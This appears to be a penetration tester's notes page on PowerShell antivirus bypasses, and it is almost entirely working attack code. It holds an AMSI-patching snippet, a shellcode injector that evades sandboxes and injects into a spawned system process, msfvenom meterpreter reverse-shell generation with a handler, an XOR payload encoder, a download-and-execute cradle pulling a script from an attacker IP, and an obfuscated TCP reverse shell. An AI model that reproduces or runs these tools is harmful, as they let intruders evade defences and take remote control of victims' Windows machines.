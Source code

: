 ```yaml
---
creation date: April 6th 2023
last modified date: April 6th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Powershell AV bypasses]]  
___

## Description:  

**Reverse shell**
**Reflective Injector**
ReflectiveInjector.ps1 PowerShell. Need to add XOR shellcode to line 34 ($buf = 0xEA,0x5E,0x95...). change line 35 if you change the xor key.
```
foreach($type in [Ref].Assembly.GetTypes()) {if ($type.Name -like "*iUtils") {$aType=$type}}
foreach($field in $aType.GetFields('NonPublic,Static')) {if ($field.Name -like "*Context") {$cntxt=$field}}
[IntPtr]$ptr=$cntxt.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)

function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq 'GetProcAddress') {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$starttime = Get-Date -Displayhint Time
Start-sleep -s 5
$finishtime = Get-Date -Displayhint Time
if ( $finishtime -le $starttime.addseconds(4.5) ) { exit }

###
# edits go here
$sacproc = "C:\Windows\System32\upnpcont.exe"
#[Byte[]] $buf =  0xEA,0x5E,0x95...
for ($abc = 0; $abc -lt $buf.Count; $abc++) { $buf[$abc] = $buf[$abc] -bxor 22}
###

$proc = Start-Process $sacproc -PassThru -WindowStyle Hidden
$procid = $proc.Id

$hprocess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), (getDelegateType @([UInt32], [bool], [UInt32])([IntPtr]))).Invoke(0x001F0FFF, $false, $procid)
$addr= [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke($hprocess, [IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Int32]$lpNumberOfBytesWritten = 0
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory), (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [UInt32].MakeByRefType())([bool]))).Invoke($hprocess, $addr, $buf, $buf.length, [ref]$lpNumberOfBytesWritten) 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr])([IntPtr]))).Invoke($hprocess,[IntPtr]::Zero,0,$addr,[IntPtr]::Zero,0,[IntPtr]::Zero)
```
Generate a payload:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.128 LPORT=443 -f ps1

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
```
Powershell XOR shell (`pwsh` on kali will drop you to a powershell and can run the script)
```
# Edit these:
#[Byte[]] $buf = 0xfc,0xe8,0x8f...
$xor_key = 22

$buffer_line = '[Byte[]] $buf =  '

for ($def = 0; $def -lt $buf.Count; $def++) {
	$buf[$def] = $buf[$def] -bxor $xor_key
	$y = [System.BitConverter]::ToString($buf[$def]);
	$buffer_line += '0x' + $y
	if ($def -ne ($buf.Count - 1)) {
		$buffer_line += ','
	}
}

$decrypt_block = 'for ($abc = 0; $abc -lt $buf.Count; $abc++) { $buf[$abc] = $buf[$abc] -bxor ' + $xor_key + '}'

Write-Output $buffer_line
Write-Output $decrypt_block
```
Script that runs on victim
```
foreach($type in [Ref].Assembly.GetTypes()) {if ($type.Name -like "*iUtils") {$aType=$type}}
foreach($field in $aType.GetFields('NonPublic,Static')) {if ($field.Name -like "*Context") {$cntxt=$field}}
[IntPtr]$ptr=$cntxt.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)
iex(new-object net.webclient).downloadstring("http://10.10.14.10/ReflectiveInjector.ps1")
```

make sure to host the ReflectiveInjector on port 80 and set up a Metasploit handler on 443

**Run a process as a different user (with creds)**
[RunasCs](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)
```
Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```


**ASMI bypass**
```
while ($true) {$px = "c0","a8","38","1";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
You have to change your IP address to hex (`$px = "c0","a8","38","1"`add 0 in front if needed) and change your port number (`($p,80)`)

**Obfuscated PowerShell Reverse Shells**
[gh0x0st](https://github.com/gh0x0st/Get-ReverseShell)

**Run a new PowerShell command in background**
```
start-job -scriptblock { C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1 }

Start-Process powershell.exe -ArgumentList "-file C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1"

```
Can sometimes avoid detection by not having your process run a new job as a child



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 6th 2023 (09:32 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
